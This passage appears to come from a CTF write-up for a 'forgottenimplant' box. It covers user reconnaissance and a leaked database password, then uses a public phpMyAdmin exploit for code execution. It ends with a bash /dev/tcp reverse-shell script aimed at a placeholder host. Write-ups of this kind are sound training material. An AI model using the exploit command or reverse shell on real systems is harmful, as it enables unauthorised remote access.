  <img src="/images/forgottenimplant/06-revshell.png" width="1000"/>
</p>

Some reconnaissance of the `ada` user
- we find a database script with a password in it s4Ucbrme
- we also find a hidden folder `.implant/implant.py` file executed in a cronjob
- we can use linpeas (but I did not find anything interesting)
- we can use pspy
- there is also another user fi that has a script sniffer.py wihch runs as root
- there is also a apache2 service running
- I made a guess and found that the server runs on port 80 with curl

Since we have found a http server running I wanted to check the `/var/www/`
folder and see if I can find anything interesting. I have found that the server
is a phpmyadmin thing, which I had some experience with from another CTF
challenge. So I wanted to try the same exploit from
<https://www.exploit-db.com/exploits/50457>.

We can run the exploit script on the target like this

```console
python3 exploit.py 127.0.0.1 80 / app s4Ucbrme id
```

This worked and gave us the user `www-data`. So we can try to do a revshell on
it. We can create a `shell.sh` file with the following content

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/HOST_IP/6870 0>&1
```
